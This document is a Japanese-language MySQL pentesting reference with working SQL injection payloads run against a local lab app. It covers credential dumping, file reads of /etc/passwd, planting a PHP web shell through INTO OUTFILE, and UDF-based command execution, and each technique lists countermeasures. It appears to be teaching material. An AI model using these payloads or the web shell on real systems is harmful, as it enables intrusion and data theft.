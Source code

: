 # MySQL Pentesting Techniques

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [Normal request](#normal-request)
- [Query log](#query-log)
- [Basic SQL Injection](#basic-sql-injection)
- [LOAD_FILE - Read file](#load_file-read-file)
  - [前提条件](#前提条件)
  - [手順](#手順)
    - [Step 1: LOAD_FILEで読みだした内容をSELECT文で出力する](#step-1-load_fileで読みだした内容をselect文で出力する)
  - [対策](#対策)
- [INTO OUTFILE - Write a PHP file to RCE](#into-outfile-write-a-php-file-to-rce)
  - [前提条件](#前提条件-1)
  - [手順](#手順-1)
    - [Step 1: WebShell入りのPHPファイルを `INTO OUTFILE` で書き込む](#step-1-webshell入りのphpファイルを-into-outfile-で書き込む)
    - [Step 2: PHP経由でOSコマンドを実行する](#step-2-php経由でosコマンドを実行する)
  - [対策](#対策-1)
- [UDF - Write a plugin file to RCE](#udf-write-a-plugin-file-to-rce)
  - [前提条件](#前提条件-2)
  - [アイデア](#アイデア)
  - [手順](#手順-2)
    - [Step 1: プラグインディレクトリを特定する](#step-1-プラグインディレクトリを特定する)
    - [Step 2: プラグインを書き込む](#step-2-プラグインを書き込む)
    - [Step 3: プラグインをロードしてUDFを作成する](#step-3-プラグインをロードしてudfを作成する)
    - [Step 4: UDF経由でOSコマンドを実行する](#step-4-udf経由でosコマンドを実行する)
  - [対策](#対策-2)

<!-- /code_chunk_output -->


## Normal request

```
http://localhost:8888/mysql.php?user=admin&pass=p4ssw0rd
```


## Query log

```
less +F ./log/mysql/query.log
```


## Basic SQL Injection

**UNION SELECT**

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT 1, 2, 3;--+
```

```
http://localhost:8888/mysql.php?user=&pass=' UNION ALL SELECT id, username, password FROM users;--+
```


**複文実行**

```
http://localhost:8888/mysql.php?user=&pass='; INSERT INTO users VALUES (1337, 'pwned', 'hello');--+
```

```
http://localhost:8888/mysql.php?user=&pass='; DELETE FROM users WHERE username='pwned';--+
```


## LOAD_FILE - Read file

### 前提条件

- secure-file-privが無効化されている場合（MySQL 5.7.5以前はデフォルト無効）


### 手順

#### Step 1: LOAD_FILEで読みだした内容をSELECT文で出力する

`load_file`関数を用いてファイルの内容を読み出す。UNION SELECTで内容を出力させることができる

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT NULL,NULL,load_file('/etc/passwd');--+
```

> result:
>
> id=, username=, password=root:​x:0:0:root:/root:/bin/bash daemon:​x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:​x:2:2:bin:/bin:/usr/sbin/nologin sys:​x:3:3:sys:/dev:/usr/sbin/nologin sync:​x:4:65534:sync:/bin:/bin/sync games:​x:5:60:games:/usr/games:/usr/sbin/nologin man:​x:6:12:​man:/var/cache/man:/usr/sbin/nologin lp:​x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:​x:8:8:mail:/var/mail:/usr/sbin/nologin news:​x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:​x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:​x:13:13:proxy:/bin:/usr/sbin/nologin www-data:​x:33:33:www-data:/var/www:/usr/sbin/nologin backup:​x:34:34:backup:/var/backups:/usr/sbin/nologin list:​x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:​x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:​x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:​x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:​x:​100:65534::/nonexistent:/usr/sbin/nologin mysql:​x:999:999::/home/mysql:/bin/sh


### 対策

- secure-file-privオプションを有効化してファイル読み込みを禁止する


## INTO OUTFILE - Write a PHP file to RCE

### 前提条件

- MySQLがPHPの公開ディレクトリにアクセスできる場合
- secure-file-privが無効化されている場合（MySQL 5.7.5以前はデフォルト無効）


### 手順

#### Step 1: WebShell入りのPHPファイルを `INTO OUTFILE` で書き込む

以下のデータをPHPファイルとして書き込む。

```php
<?php $param=$_GET["cmd"]; echo shell_exec($param);
```

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT NULL,NULL,'<?php $param=$_GET["cmd"]; echo shell_exec($param);' INTO OUTFILE '/var/www/html/poc.php
```


#### Step 2: PHP経由でOSコマンドを実行する

書き込みに成功していれば以下のURLで任意コマンド実行ができる。

```
❯ curl 'http://localhost:8888/poc.php?cmd=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### 対策

- MySQLとWebサーバは分離した構成にする
- secure-file-privオプションを有効化してファイル書き込みを禁止する


## UDF - Write a plugin file to RCE

### 前提条件

- 複文実行できる設定になっている場合
- プラグインディレクトリにMySQLのプロセスが書き込み可能な場合


### アイデア

- MySQLではC言語でプラグインを書いて、独自のSQL関数（UDF）を実装することができる
- C言語内では当然任意のコードが実行できるので、OSコマンドを実行するUDFを作り出すことも可能
  - 例. https://www.exploit-db.com/exploits/1518
- MySQLがプラグインディレクトリに書き込む権限を持っている場合、UDFを含むバイナリを書き込み、プラグインとしてロードさせることで任意コード実行ができる
- コンパイル済みのOSコマンド実行UDFも世の中に転がっている
  - 例. https://www.exploit-db.com/exploits/46249


### 手順

#### Step 1: プラグインディレクトリを特定する

バイナリファイルをどこに書き込めば良いか調べる。

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT @@plugin_dir,'','';--+
```

> result:
>
> id=/usr/lib/mysql/plugin/, username=, password=


#### Step 2: プラグインを書き込む

[既存のExploitコード](https://www.exploit-db.com/exploits/46249)中に含まれる `shellcode_x64` の値がコンパイル済みのバイナリデータになっている。以下の手順ではこちらの値を流用する。

GETリクエストだとURI長の制限に引っかかるため、POSTリクエストで投げる。

もし、GETリクエストしか使えない場合は、バイナリファイルを分割してDB内に格納し、後から連結することで制限を回避できる。

```
curl http://localhost:8888/mysql.php \
  -d 'user=' \
  -d "pass='; SELECT BINARY /*ここに数値としてバイナリデータを入れる（例. 0x41424344）*/ into dumpfile '/usr/lib/mysql/plugin/mysql_udfsys.so';--+"
```


#### Step 3: プラグインをロードしてUDFを作成する

バイナリファイル内の `sys_exec` シンボルの関数がUDFとして実行できるようになる。

```
http://localhost:8888/mysql.php?user=&pass='; CREATE FUNCTION sys_exec RETURNS int SONAME 'mysql_udfsys.so';--+
```


#### Step 4: UDF経由でOSコマンドを実行する

コマンド実行結果が分からないので、ファイルに書き込んでコマンド実行の成功を確かめる。

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT sys_exec('echo PWNED! > /var/www/html/udf_poc'), '', '';--+
```

```
❯ curl http://localhost:8888/udf_poc
PWNED!
```


### 対策

- 複文実行を禁止するオプションを有効化するか、sqliなどを使用する
- MySQLプロセスの権限を必要最小限に絞る
- secure-file-privオプションを有効化してファイル書き込みを禁止する
